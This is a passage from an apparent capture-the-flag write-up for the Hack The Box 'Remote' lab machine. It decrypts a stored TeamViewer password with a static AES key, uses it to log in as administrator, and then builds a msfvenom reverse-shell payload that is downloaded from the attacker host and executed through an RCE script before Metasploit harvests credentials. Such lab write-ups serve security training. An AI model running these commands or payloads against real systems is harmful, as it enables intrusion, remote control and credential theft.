 It’s using AES128 in CBC mode with a static key and iv. I can easily recreate this in a few lines of Python:

```
#!/usr/bin/env python3

from Crypto.Cipher import AES

key = b"\x06\x02\x00\x00\x00\xa4\x00\x00\x52\x53\x41\x31\x00\x04\x00\x00"
iv = b"\x01\x00\x01\x00\x67\x24\x4F\x43\x6E\x67\x62\xF2\x5E\xA8\xD7\x04"
ciphertext = bytes([255, 155, 28, 115, 214, 107, 206, 49, 172, 65, 62, 174, 
                    19, 27, 70, 79, 88, 47, 108, 226, 209, 225, 243, 218, 
                    126, 141, 55, 107, 38, 57, 78, 91])

aes = AES.new(key, AES.MODE_CBC, IV=iv)
password = aes.decrypt(ciphertext).decode("utf-16").rstrip("\x00")

print(f"[+] Found password: {password}")
```

`[+] Found password: !R3m0te!`

Then we can use `crackmapexec` to verify the smb service or evil-winrm.
```
crackmapexec winrm 10.10.10.180 -u administrator -p "\!R3m0te\!"
WINRM       10.10.10.180    5985   REMOTE           [+] remote\administrator:!R3m0te! (Pwn3d!)
```

Let's exploit it and get the SYSTEM shell.


4,Beyond root
we can also use msfconsole:
Firstly we need to make our `meterpreter payload`
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.65 LPORT=443 -f exe -o reverse_shell.exe`

Then also use our RCE to upload it and exec it.
```
python3 exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c powershell.exe -a 'wget http://10.10.14.65/reverse_shell.exe -outfile C:/programdata/reverse_shell.exe

python3 exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c "C:/programdata/reverse_shell.exe"
```

Then we can use msfconsole to handle it:
```
use multi/handler
set payload windows/meterpreter/reverse_tcp

when we get the shell, we can background it and use the teamviewer modulus

use post/windows/gather/credentials/teamviewer_passwords
set session 1
run

[*] Finding TeamViewer Passwords on REMOTE
[+] Found Unattended Password: !R3m0te!
```

Then we can also get the unattended password.
